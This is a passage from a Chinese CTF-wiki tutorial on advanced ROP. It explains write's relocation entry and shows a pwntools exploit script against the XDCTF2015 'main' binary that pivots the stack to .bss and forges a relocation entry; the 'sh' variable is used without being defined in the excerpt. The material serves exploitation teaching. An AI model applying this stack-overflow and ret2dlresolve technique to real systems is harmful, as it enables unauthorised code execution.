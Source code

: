 可以看出 write 的重定表项的 r_offset=0x0804a01c，r_info=0x00000607。

```python
  from pwn import *
  elf = ELF('main')
  r = process('./main')
  rop = ROP('./main')

  offset = 112
  bss_addr = elf.bss()

  r.recvuntil('Welcome to XDCTF2015~!\n')

  stack_size = 0x800
  base_stage = bss_addr + stack_size
  rop.raw('a' * offset)
  rop.read(0, base_stage, 100)
  rop.migrate(base_stage)
  r.sendline(rop.chain())

  plt0 = elf.get_section_by_name('.plt').header.sh_addr
  rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
  ## making base_stage+24 ---> fake reloc
  index_offset = base_stage + 24 - rel_plt
  write_got = elf.got['write']
  r_info = 0x607

  rop.raw(plt0)
  rop.raw(index_offset)
  ## fake ret addr of write
  rop.raw('bbbb')
  rop.raw(1)
  rop.raw(base_stage + 80)
  rop.raw(len(sh))
  rop.raw(write_got)  # fake reloc
  rop.raw(r_info)
  rop.raw('a' * (80 - len(rop.chain())))
  rop.raw(sh)
  rop.raw('a' * (100 - len(rop.chain())))

  r.sendline(rop.chain())
  r.recv()
```

![Alt](img/wiki-AdvancedRop6.png)
